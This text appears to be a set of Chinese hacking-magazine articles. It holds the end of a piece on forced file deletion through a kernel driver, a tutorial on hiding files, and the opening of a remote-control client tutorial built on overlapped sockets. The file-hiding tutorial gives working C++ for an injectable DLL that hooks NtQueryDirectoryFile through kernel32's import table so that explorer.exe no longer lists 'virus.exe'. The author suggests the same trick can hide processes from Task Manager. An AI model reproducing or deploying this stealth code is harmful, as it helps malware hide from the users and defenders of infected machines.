

图1

下面编译本文介绍的内核级驱动技术编写的代码，将生成的.sys文件通过DriverMonitor加载并运行后，发现文件自动清除。读者可以自行将代码重新编写一遍，很好地理解一下其中的各条语句，特别是如何向分层驱动发送IRP、处理IRP的各个过程，自行测试，看看执行后的效果。笔者还测试过如果不将文件属性改为常规属性时，不调用本文中介绍的函数ClearFileAttri，在测试过程中将待删除的文件设置为只读、隐藏、压缩文件，然后重新编译修改后的驱动，加载此驱动，发现指定的文件并没有删除。目前，笔者理解为FileDispositionInformation操作只对常规文件有效。综上所述，我们需要创建两个IRP，第1个IRP用于修改文件的属性，第2个IRP则用于发送文件删除指令和清除文件链结构。

#### 性能测试

代码已经全部完成，现在就来测试一下。笔者采用Windows DDK 2600进行编译，当然需要用到SOURCE和MAKEFILE文件。我不太喜欢采用集成开发环境，所以也就没有配置，这需要看个人的喜爱了。至于SOURCE和MakeFile文件如何写，这里就不作介绍了，读者可参考黑防2008年第1期的相关文章或相关驱动开发书籍等。首先，采用Hook ZwSetInformation技术，简…

#### 小结

本文介绍了一种内核级驱动，向FSD发送特定的IRP达到强制性删除文件特效。前面的代码中没有写函数DispatchDevControl，此函数只需要简单地调用IoCompleteRequest来完成IRP即可。在编写驱动和测试的时候，建议读者在虚拟机下进行设备开发，以防蓝屏。其实开发驱动发生蓝屏现象是常有的情况。对本文的理解需要读者具有一定的驱动开发知识，对驱动开发感兴趣的读者可以参考《Windows驱动开发技术详解》和《Linux驱动设备开发》等相关书籍。本文只是删除文件的一种技术，可能还有其他更优秀的技术，希望与大家共同交流。

- 前置知识：VC
- 关键词：编程、Ring3、文件隐藏



## Ring3下Hook ZwQueryDirectoryFile实现文件隐藏

文／图 重庆大学 聂森

一直以为文件隐藏是很容易实现的功能，最近在写一个Ring3下的小东西时需要实现文件隐藏功能，结果浪费了很长时间，尝试了多种方法都以失败告终，最后终于实现了一种稳定有效的方法，这里就和大家分享一下。

#### 失败的经历

刚开始写此模块的时候，很天真地以为explorer.exe会使用kernel32.dll中导出的FindFirstFileW()和FindNextFileW()实现文件查找，并且CSDN上有人贴代码说是Hook此函数可以实现文件隐藏，但是我尝试了Hook IAT表和JMP的方法都行不通，不知为何。

后来自己逆向了FindFirstFileA()，发现调用序列为：FindFirstFileA()→FindFirstFileExW()→ZwQueryDirectoryFile()→…，然后我改用Hook FindFirstFileExW()，仍然毫无收获。

最后走投无路，决定拿ZwQueryDirectoryFile()开刀，在Ring3下直接操作物理内存，结果仍然以失败告终。不过以上方法都可以实现在WinRAR中隐藏文件，但在explorer.exe中则均以失败告终。

之后翻阅了很多资料，终于从MJ0011的一篇《另类挂钩——Ring3下数据包监控》中找到了灵感。

#### 成功方案

原理其实很简单，无论explorer.exe使用什么API进行文件查找，最终都会调用ZwQueryDirectoryFile()函数，而且是在其加载的Kernel32.dll中间接调用，类似于应用程序会维护一个IAT表来索引调用的函数。动态链接库也存在着一个IAT表，并且Kernel32.dll的IAT表中存储了ntdll.dll中的ZwQueryDirectoryFile的地址。我们仍然利用常规的Hook IAT表的方法实现，只不过是把Hook的位置改为explorer.exe加载的Kernel32.dll的IAT表。下面是我写的一个实现隐藏文件的DLL。

```cpp
#include <windows.h>
#include <WinNT.h>
// 从ntddk中拿出来的一些结构体定义，在ZwQueryDirectoryFile()中要用到

typedef LONG NTSTATUS;
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)

// 参数类型
typedef struct _IO_STATUS_BLOCK {
    NTSTATUS Status;
    ULONG Information;
} IO_STATUS_BLOCK, *PIO_STATUS_BLOCK;

// 字符串类型
typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

// 枚举类型，主要利用FileBothDirectoryInformation(3)
typedef enum _FILE_INFORMATION_CLASS {
    FileDirectoryInformation = 1,
    FileFullDirectoryInformation,
    ...
    FileBothDirectoryInformation,
    FileBasicInformation,
    FileStandardInformation,
    FileInternalInformation,
    FileEaInformation,
    FileAccessInformation,
    FileNameInformation,
    FileRenameInformation,
    FileLinkInformation,
    FileNamesInformation,
    FileDispositionInformation,
    FilePositionInformation,
    FileFullEaInformation,
    FileModeInformation,
    FileAlignmentInformation,
    FileAllInformation,
    FileAllocationInformation,
    FileEndOfFileInformation,
    FileAlternateNameInformation,
    FileStreamInformation,
    FilePipeInformation,
    FilePipeLocalInformation,
    FilePipeRemoteInformation,
    FileMailslotQueryInformation,
    FileMailslotSetInformation,
    FileCompressionInformation,
    FileObjectIdInformation,
    FileCompletionInformation,
    FileMoveClusterInformation,
    FileQuotaInformation,
    FileReparsePointInformation,
    FileNetworkOpenInformation,
    FileAttributeTagInformation,
    FileTrackingInformation,
    FileMaximumInformation
} FILE_INFORMATION_CLASS, *PFILE_INFORMATION_CLASS;

typedef VOID (NTAPI *PIO_APC_ROUTINE)(
    IN PVOID ApcContext,
    IN PIO_STATUS_BLOCK IoStatusBlock,
    IN ULONG Reserved
);

typedef struct _FILE_BOTH_DIRECTORY_INFORMATION {
    ULONG NextEntryOffset;
    ULONG Unknown;
    LARGE_INTEGER CreationTime;
    LARGE_INTEGER LastAccessTime;
    LARGE_INTEGER LastWriteTime;
    LARGE_INTEGER ChangeTime;
    LARGE_INTEGER EndOfFile;
    LARGE_INTEGER AllocationSize;
    ULONG FileAttributes;
    ULONG FileNameLength;
    ULONG EaInformationLength;
    UCHAR AlternateNameLength;
    WCHAR AlternateName[12];
    WCHAR FileName[1];
} FILE_BOTH_DIRECTORY_INFORMATION, *PFILE_BOTH_DIRECTORY_INFORMATION;

typedef NTSTATUS (__stdcall *ZWQUERYDIRECTORYFILE)(
    IN HANDLE FileHandle,
    IN HANDLE Event OPTIONAL,
    IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
    IN PVOID ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK IoStatusBlock,
    OUT PVOID FileInformation,
    IN ULONG Length,
    IN FILE_INFORMATION_CLASS FileInformationClass,
    IN BOOLEAN ReturnSingleEntry,
    IN PUNICODE_STRING FileName OPTIONAL,
    IN BOOLEAN RestartScan
);

// 原始 ZwQueryDirectoryFile 地址
ZWQUERYDIRECTORYFILE OldZwQueryDirectoryFile = NULL;

// 替换原有函数
NTSTATUS WINAPI NewZwQueryDirectoryFile(
    HANDLE FileHandle,
    HANDLE Event,
    PIO_APC_ROUTINE ApcRoutine,
    PVOID ApcContext,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID FileInformation,
    ULONG Length,
    FILE_INFORMATION_CLASS FileInformationClass,
    BOOLEAN ReturnSingleEntry,
    PUNICODE_STRING FileName,
    BOOLEAN RestartScan)
{
    // 先调用原有函数
    LONG rret = OldZwQueryDirectoryFile(
        FileHandle, Event, ApcRoutine, ApcContext,
        IoStatusBlock, FileInformation, Length,
        FileInformationClass, ReturnSingleEntry,
        FileName, RestartScan);

    if (!NT_SUCCESS(rret)) {
        return rret;
    }

    // 只改了 FileBothDirectoryInformation 这种可能性
    if (FileInformationClass == FileBothDirectoryInformation) {
        PFILE_BOTH_DIRECTORY_INFORMATION pFileInfo;
        PFILE_BOTH_DIRECTORY_INFORMATION pLastFileInfo;

        // 测试的 C:\\ 下的 virus.exe 的隐藏
        WCHAR VIRUS[] = L"virus.exe";
        BOOLEAN flag;

        pFileInfo = (PFILE_BOTH_DIRECTORY_INFORMATION)FileInformation;
        pLastFileInfo = NULL;
        do {
            flag = !(pFileInfo->NextEntryOffset);
            // 宽字符比较，善用 WCSSTR
            if (wcsstr(pFileInfo->FileName, VIRUS) != NULL) {
                if (flag) {
                    pLastFileInfo->NextEntryOffset = 0;
                    break;
                } else {
                    int iPos = ((ULONG)pFileInfo) - (ULONG)FileInformation;
                    int iLeft = (DWORD)Length - iPos - pFileInfo->NextEntryOffset;
                    memcpy((PVOID)pFileInfo,
                           (PVOID)((char *)pFileInfo + pFileInfo->NextEntryOffset),
                           (DWORD)iLeft);
                    continue;
                }
            }
            pLastFileInfo = pFileInfo;
            pFileInfo = (PFILE_BOTH_DIRECTORY_INFORMATION)
                        ((char *)pFileInfo + pFileInfo->NextEntryOffset);
        } while (!flag);
    }

    return rret;
}

// Hook Function
BOOL HookQueryFile(BOOL flag)
{
    // 确定 Kernel32.dll 的基地址
    HMODULE hModule = LoadLibrary("kernel32.dll");
    if (hModule == NULL) {
        return FALSE;
    }

    // 判断 DOS 头的有效性
    PIMAGE_DOS_HEADER pDosHdr = (PIMAGE_DOS_HEADER)hModule;
    if (pDosHdr->e_magic != IMAGE_DOS_SIGNATURE) {
        return FALSE;
    }

    // 判断 PE 头的有效性
    PIMAGE_NT_HEADERS pNtHdr =
        (PIMAGE_NT_HEADERS)((ULONG)hModule + pDosHdr->e_lfanew);
    if (pNtHdr->Signature != IMAGE_NT_SIGNATURE) {
        return FALSE;
    }

    // 判断输入表目录有效性
    if (pNtHdr->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress == NULL ||
        pNtHdr->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].Size == 0) {
        return FALSE;
    }

    PIMAGE_IMPORT_DESCRIPTOR ImportDescriptor =
        (PIMAGE_IMPORT_DESCRIPTOR)((ULONG)hModule +
        pNtHdr->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);

    PIMAGE_THUNK_DATA ThunkData;
    while (ImportDescriptor->FirstThunk) {
        char *szDll = (char *)((ULONG)hModule + ImportDescriptor->Name);

        // 遍历寻找 Kernel32 中加载的 ntdll.dll
        if (stricmp(szDll, "ntdll.dll") != NULL) {
            ImportDescriptor++;
            continue;
        }

        ThunkData = (PIMAGE_THUNK_DATA)((ULONG)hModule + ImportDescriptor->OriginalFirstThunk);

        // 查找 NtQueryDirectoryFile 函数位置（即 ZwQueryDirectoryFile）
        int num = 1;
        while (ThunkData->u1.Function) {
            char *szFunc = (char *)((ULONG)hModule + ThunkData->u1.AddressOfData + 2);
            if (stricmp(szFunc, "NtQueryDirectoryFile") == 0) {
                PDWORD pFunc = (DWORD *)((ULONG)hModule +
                              (DWORD)ImportDescriptor->FirstThunk + (num - 1));
                if (flag) {
                    // Hook
                    ULONG pNewFunc = (ULONG)NewZwQueryDirectoryFile;
                    OldZwQueryDirectoryFile = (ZWQUERYDIRECTORYFILE)(*(ULONG *)pFunc);
                    DWORD dwWrite = 0;
                    WriteProcessMemory(GetCurrentProcess(), pFunc,
                                       &pNewFunc, sizeof(ULONG), &dwWrite);
                } else {
                    // UnHook
                    DWORD dwWrite = 0;
                }
            }
            num++;
            ThunkData++;
        }
    }
}
```

```cpp
WriteProcessMemory(GetCurrentProcess(), pFunc,
    (DWORD*)&OldZwQueryDirectoryFile, sizeof(ULONG),
    &dwWrite);
}
return TRUE;
}
num++;
ThunkData++;
}
ImportDescriptor++;
}
return FALSE;
}

BOOL APIENTRY DllMain(HANDLE hModule,
    DWORD dwReason, LPVOID lpReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        // HOOK ZwQueryDirectoryFile
        HookQueryFile(TRUE);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        // UnHook ZwQueryDirectoryFile
        HookQueryFile(FALSE);
    }
    return TRUE;
}
```

编译以上代码，之后随便找一个 DLL 注入卸载工具即可进行测试。当把此 DLL 注入到 explorer.exe 时，可以实现把 C:\\ 目录下的 virus.exe 隐藏，卸载此 DLL 后 virus.exe 可见。

#### 总结

本文涉及代码的开发环境为 Visual Studio 2008 + Windows XP SP3。通过 Hook 应用程序加载的动态链接库中的 IAT 表来完成文件隐藏功能，此方法稳定有效，在 Ring3 下即可轻松完成。并且本文使用的方法可以扩展到其他 Native API 的 Hook，例如测试发现可以成功 Hook 任务管理器的 ZwQueryInformationProcess() 函数。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

**前置知识**：VC  
**关键词**：编程、远控、混合模型

### 基于混合模型的远程控制软件客户端编写

文／图 重庆通信学院 杨阳 赵有华

在 2009 年第 1 期的《远程控制软件编程之多用户显示》一文中，远程控制软件的实现使用的是套接字 WSAAsyncSelect 模型，该模型虽然在等待发送和接收数据时是异步的，但真正在线程中发送和接收数据的时候却不是异步的。也就是说，对于多用户来讲，基于 WSAAsyncSelect 模型的远程控制软件的服务端同一时刻只能与一个客户端发生交互。完成真正意义上的异步 I/O 模型是套接字重叠 I/O 模型。本文中涉及的程序是基于套接字重叠 I/O 事件通知模型，同时又加入了其他模型的远程控制软件的雏形。

首先我们来看一下重叠 I/O 事件通知模型的基本原理。

#### 重叠 I/O 模型

我们在 2008 年第 12 期的《Winsock I/O 模型之重叠模型事件通知篇》一文中提到，重叠 I/O 模型在调用了 WSARecv() 函数后立即返回，线程继续运行。当系统中数据准备好，并且将数据复制到用户缓冲区后，与 WSAOVERLAPPED 结构关联的事件对象的状态会发生变化，应用程序根据事件对象状态的变化对数据进行处理。

| 模型 | 过程 |
|---|---|
| WSAAsyncSelect 模型 | 异步等待事件，同步完成 |
| 重叠 I/O 模型 | 全过程异步 |

图1

图1是 WSAAsyncSelect 模型与重叠 I/O 模型在接收数据时的比较。可以看出，对于重叠 I/O 模型，从等待数据准备到拷贝数据到用户空间的整个过程都是异步的；而对于 WSAAsyncSelect 模型，只有等待数据准备的过程是异步的。

我们要讲解的远程控制软件就是在重叠 I/O 模型的基础上又加入了其他模型的一种混合模型，如图2所示。在单一的重叠 I/O 事件通知模型中，是被动地等待套接字的状态变为可读；而在本文涉及的混合模型中，我们使用 select() 模型去主动查询套接字的状态，并为套接字状态的改变设置了时间限制。与单一的重叠 I/O 事件通知模型相比，混合模型的效率更高。

| 混合模型 | 流程 |
|---|---|
| select 模型（异步）+ I/O 模型（异步） | 接收事件后完成 |

图2

本文涉及的混合模型远程控制软件分为客户端和服务端，在工作过程中由客户端去连接服务端。由于篇幅所限，本文只介绍混合模型的客户端，服务端的编写过程将在下一篇文章中介绍。

#### 混合模型的客户端

##### 1. 工程的创建

在 VC 中创建一个“单个文档”类型的工程，并且将工程名设置为“PeerClient”。然后在“MFC AppWizard”的第 4 步对话框中点击“高级”选项，在弹出的对话框中的“Window Style”选项卡中，选中“应用拆分窗体”选项。

##### 2. 界面编程

###### （1）界面的拆分

如图3所示，我们要把客户端的界面设置为 1 行 2 列的形式。通过对 MainFrm.cpp 文件中 OnCreateClient() 函数进行编写，可以实现对客户端界面的设置。

OnCreateClient() 函数对应了在创建工程时选择的“应用拆分窗体”选项。如果没有选择该选项，在 MainFrm.cpp 文件中就不会出现 OnCreateClient() 函数。OnCreateClient() 函数在 OnCreate() 函数调用的过程中会被自动调用。

图3

接下来将 OnCreateClient() 函数中默认的代码删除，写入如下代码：

```cpp
if (!m_wndSplitter.CreateStatic(this, 1, 2))
{
    return FALSE;
}
```

在第 1 行中，变量 m_wndSplitter 已经在 MainFrm.h 头文件中作为 CMainFrame 类的受保护成员变量，被声明为 CSplitterWnd 类的对象。通过 m_wndSplitter 调用 CSplitterWnd 类的成员函数 CreateStatic()，CreateStatic() 的作用是创建一个静态切分窗口。

静态切分窗口的特性是当窗口第 1 次被创建时，窗格（pane）就已经被切分好了，这些窗格不能再被改变；而对应的动态窗口则允许用户在任何时候对窗口进行切分。第 1 行中 CreateStatic() 函数的第 1 个参数是切分窗口的上一级框架窗口，this 表示的是客户端自身的窗口；第 2 个和第 3 个参数分别表示要切分窗口的行数和列数。第 1 行代码的含义是将客户端自身的窗口切分成 1 行 2 列的静态窗口。

###### （2）创建与窗口关联的类

在工程中新建两个类：一个作为 CTreeView 类的派生类，名称设置为 CPeerHostTreeView；另外一个作为 CListView 类的派生类，名称设为 CPeerHostFileListView。其中，CPeerHostTreeView 类用来显示服务端，CPeerHostFileListView 用来显示服务端中的文件。

```cpp
if (!m_wndSplitter.CreateView(0, 0,
    RUNTIME_CLASS(CPeerHostTreeView), CSize(0, 0), pContext))
{
    return FALSE;
}

if (!m_wndSplitter.CreateView(0, 1,
    RUNTIME_CLASS(CPeerHostFileListView), CSize(0, 0), pContext))
{
    return FALSE;
}
```

在第 1 行中，通过变量 m_wndSplitter 调用了 CSplitterWnd 类的成员函数 CreateView()。CreateView() 函数为静态切分窗口创建窗格（pane）视图。CreateView() 函数的第 1 个和第 2 个参数分别指定了用来放置新视图的切分窗口的行数和列数，第 1 个 0 表示第 1 行，第 2 个 0 表示第 1 列；第 3 个参数表示新视图的 CRuntimeClass 类，CPeerHostTreeView 是我们新创建的 CTreeView 类的派生类；第 4 个参数表示新视图初始的大小，设置该视图具体大小的代码我们将在稍后介绍；第 5 个参数表示用于创建视图的上下文（creation context）的指针，pContext 就是 OnCreateClient() 函数的第 2 个形式参数。第 1 行代码的作用是为切分窗口的第 1 行第 1 列窗口创建窗格视图，并指定该窗格视图的 CRuntimeClass 类。第 6 行代码通过变量 m_wndSplitter 调用了 CSplitterWnd 类的成员函数 CreateView()，其作用是为切分窗口的第 1 行第 2 列窗口创建窗口视图，并指定该窗口视图的 CRuntimeClass 类。

###### （3）窗格视图大小的调整

在 OnCreateClient() 函数中使用以下代码对窗口视图的大小进行调整：

```cpp
CRect r;
GetClientRect(&r);
int w1 = r.Width() * 3 / 10;
int w2 = r.Width() * 7 / 10;
m_wndSplitter.SetColumnInfo(0, w1, 0);
m_wndSplitter.SetColumnInfo(1, w2, 0);
m_wndSplitter.RecalcLayout();
```

其中，第 2 行通过 GetClientRect() 函数获取客户端窗口客户区的坐标，并保存在 CRect 类的对象 r 中。第 3～6 行分别通过 m_wndSplitter 调用了 CSplitterWnd 类的成员函数 SetColumnInfo()，将客户端窗口中两列窗口的宽度比设置为 3:7。第 7 行通过 m_wndSplitter 调用了 CSplitterWnd 类的成员函数 RecalcLayout()，根据设置的宽度重新画出切分窗口。

###### （4）头文件的添加

首先在 MainFrm.cpp 文件中加入声明以上两个类的头文件：

```cpp
#include "PeerHostTreeView.h"
#include "PeerHostFileListView.h"
```

由于在程序中使用了 CTreeView 类，因此还需要在 StdAfx.h 头文件中添加声明该类的头文件：`#include <afxcview.h>`。

###### （5）工具栏的编程

首先在应用程序资源的工具栏文件夹中找到 ID 为 IDR_MAINFRAME 的工具栏，在工具栏编辑器中将该工具栏中所有的按键去除，然后在图标文件夹里导入一个新的图标，作为工具栏按键的图标，并把该图标的 ID 设置为 IDL_HOST_HOST。接下来在 MainFrm.h 头文件中声明一个受保护的成员变量 `CImageList m_ImageList;`，变量 m_ImageList 的作用是保存工具栏按键图标。在 MainFrm.cpp 执行文件中，对 CMainFrame 类的成员函数 OnCreate() 进行编写。

```cpp
m_ImageList.Create(32, 32, ILC_COLOR24 | ILC_MASK, 0, 1);
m_ImageList.Add(AfxGetApp()->LoadIcon(IDL_HOST_HOST));

if (!m_wndToolBar.CreateEx(this,
    TBSTYLE_FLAT, WS_CHILD | WS_VISIBLE | CBRS_TOP | CBRS_GRIPPER |
    CBRS_TOOLTIPS | CBRS_FLYBY | CBRS_SIZE_DYNAMIC) ||
    !m_wndToolBar.LoadToolBar(IDR_MAINFRAME))
{
    TRACE0("Failed to create toolbar\n");
    return -1;
}

m_wndToolBar.GetToolBarCtrl().SetImageList(&m_ImageList);
m_wndToolBar.GetToolBarCtrl().SetButtonSize(CSize(40, 40));
m_wndToolBar.GetToolBarCtrl().SetBitmapSize(CSize(30, 30));
```

第 1 行通过 m_ImageList 调用了 CImageList 类的成员函数 Create() 创建了一个图像列表。第 2 行通过 m_ImageList 调用了 CImageList 类的成员函数 Add()，将导入的 IDL_HOST_HOST 图标添加到图像列表中。第 3～9 行是 OnCreate() 中默认生成的代码，m_wndToolBar 是 CToolBar 类的对象，通过 m_wndToolBar 调用 CToolBar 类的成员函数 CreateEx()，用于创建一个工具栏。第 10 行使用 SetImageList() 函数将图像列表添加到工具栏类的对象中。第 11 行使用 SetButtonSize() 函数设置工具栏中按键的大小；第 12 行使用 SetBitmapSize() 函数设置工具栏中按键图像的大小。

###### （6）搜索 IP 的对话框

在应用程序资源的对话框文件夹中插入一个新的对话框，把插入对话框的 ID 设置为 IDD_SEARCHHOST。在该对话框中添加两个 IP 地址控件，作为搜索服务端 IP 地址的起始值和终止值，并将这两个 IP 地址控件的 ID 分别设置为 IDC_IPADDRESS_FIRST 和 IDC_IPADDRESS_SECOND。

之后，在工程中为该对话框添加名称为 CSearchHostDlg 的对话框类，并在 “MFC ClassWizard” 中为以上两个 IP 地址控件添加对应的成员变量 m_HostAddrFirst 和 m_HostAddrSecond。

最后，我们将搜索 IP 的对话框与工具栏中的按键关联起来。按下工具栏中的搜索按键后，弹出搜索 IP 对话框。在 “MFC ClassWizard” 中为工具栏按键添加 “COMMAND” 消息的响应函数，在响应函数中输入如下代码：

```cpp
CSearchHostDlg dlgSearchHost;
if (dlgSearchHost.DoModal() == IDOK)
{
}
```

第 1 行中的 CSearchHostDlg 是搜索 IP 的对话框类。由于在第 1 行中使用了 CSearchHostDlg 类，因此在 MainFrm.cpp 执行文件中，要加入声明该类的头文件：`#include "SearchHostDlg.h"`。

##### 3. 套接字编程

在文章的开始部分，我们已经提到本文涉及的程序是以重叠 I/O 模型为基础的，因此为了调用方便，我们需要对套接字的创建、绑定、监听、连接以及发送和接收等重新编写。

###### （1）头文件的编写

在应用程序文件的头文件夹中新建名为 PeerSocket.h 的头文件，并在该头文件中对套接字的操作进行声明：

```cpp
BOOL PeerCreateSocket(SOCKET *pNewSocket, int iSockType);
BOOL PeerBindSocket(SOCKET BindSocket, char *szHostAddr, int iHostPort);
BOOL PeerConnectSocket(SOCKET BindSocket, char *szHostAddr, int iHostPort);
BOOL PeerListenSocket(SOCKET ListenSocket);
BOOL PeerShutDownSocket(SOCKET nowSocket);
BOOL PeerCloseSocket(SOCKET nowSocket);
BOOL PeerSendData(SOCKET socket, char *data, DWORD len, DWORD *retlen, WSAEVENT hSendEvent, DWORD time = WSA_INFINITE);
BOOL PeerRecvData(SOCKET socket, char *data, DWORD len, DWORD *retlen, WSAEVENT hRecvEvent, DWORD time = WSA_INFINITE);
BOOL PeerSendDataS(SOCKET socket, char *data, DWORD len, DWORD *retlen, WSAEVENT hSendEvent, DWORD time = WSA_INFINITE);
BOOL PeerRecvDataS(SOCKET socket, char *data, DWORD len, DWORD *retlen, WSAEVENT hRecvEvent, DWORD time = WSA_INFINITE);
```

其中，第 1 行声明了套接字创建函数，第 2 行声明了套接字绑定函数，第 3 行声明了套接字连接函数，第 4 行声明了套接字监听函数，第 5 行声明了禁止套接字发送或接收数据的函数，第 6 行声明了套接字关闭函数，第 7/8 行分别声明了发送与接收数据函数，第 9/10 行分别声明了发送与接收全部数据函数。

###### （2）执行文件的编写

- 1. StdAfx.h 头文件
- 2. PeerClient.cpp 执行文件

在对 PeerSocket.cpp 进行文件编写前，需要在 StdAfx.h 头文件中加入定义套接字的头文件 `#include <Winsock2.h>`。由于重叠 I/O 模型需要使用事件对象，因此在 StdAfx.h 头文件中加入对事件对象的声明 `extern WSAEVENT hExitEvent;`。

首先，在 PeerClient.cpp 文件中声明事件对象 `WSAEVENT hExitEvent;`。之后在 PeerClient.cpp 执行文件的 InitInstance() 函数中，对事件和套接字进行初始化处理：

```cpp
if ((hExitEvent = WSACreateEvent()) == WSA_INVALID_EVENT) {
    return -1;
}
WSADATA wsaData;
if (WSAStartup(MAKEWORD(2,2), &wsaData) != 0) {
    return -1;
}
if ((LOBYTE(wsaData.wVersion) != 2) ||
    (HIBYTE(wsaData.wVersion) != 2)) {
    WSACleanup();
}
```

```cpp
11. return -1;
12. }
```

其中，第1～3行完成了对事件对象的初始化，WSACreateEvent()函数创建了一个事件对象。第4～7行通过WSAStartup()函数完成了对套接字的初始化。第8～12行对套接字的版本进行判断，如果不是2.2版本，则退出程序。

## ③ PeerSocket.cpp执行文件

在应用程序文件的执行文件文件夹中新建名为PeerSocket.cpp的执行文件，在该执行文件中，对PeerSocket.h头文件中声明的函数进行编写。

首先在文件中加入以下头文件：

```cpp
#include "stdafx.h"
#include "PeerSocket.h"
#pragma comment(lib, "ws2_32")
```

接下来对PeerSocketCreate()函数进行编写：

```cpp
BOOL PeerCreateSocket(SOCKET* pNewSocket, int iSockType)
{
    SOCKET socket;
    return ((socket = WSASocket(AF_INET, iSockType, 0, NULL, 0,
            WSA_FLAG_OVERLAPPED)) == INVALID_SOCKET) ?
            false : *pNewSocket = socket, true;
}
```

其中，第4～6行调用了WSASocket()函数创建套接字。第1个参数表示地址族，第2个参数表示套接字的类型；iSockType是PeerCreateSocket()函数的参数。第3个参数表示在地址族中使用的特殊协议，0表示没有使用特殊协议。第4个参数是指向WSAPROTOCOL_INFO结构的指针，这个结构包含了创建的套接字的特性，由于在程序中没有使用这个结构，因此把第4个参数设置为NULL；第5个参数为将来使用套接字群预留的参数，因此设置为NULL；第6个参数为属性的标志，WSA_FLAG_OVERLAPPED表示使用重叠I/O模型。如果创建套接字成功，WSASocket()函数返回创建的套接字描述符；如果创建套接字失败，则返回INVALID_SOCKET。第4～6行的含义是：如果创建套接字失败，PeerCreateSocket()函数返回FALSE；如果创建成功，则将pNewSocket赋值为新创建的套接字，并且返回TRUE。

